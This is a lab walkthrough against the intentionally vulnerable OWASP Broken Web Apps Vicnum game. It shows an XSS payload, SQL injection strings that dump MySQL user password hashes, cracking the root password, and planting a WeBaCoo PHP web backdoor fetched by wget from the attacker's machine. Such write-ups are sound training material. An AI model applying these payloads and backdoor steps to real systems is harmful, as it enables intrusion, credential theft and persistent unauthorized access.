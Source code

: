 +++
title = "OWASP Broken Web Apps Vicnum - Guessnum"
slug = "owasp-broken-web-apps-vicnum-guessnum"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
{% highlight sql %}
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
{% endhighlight %}

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}
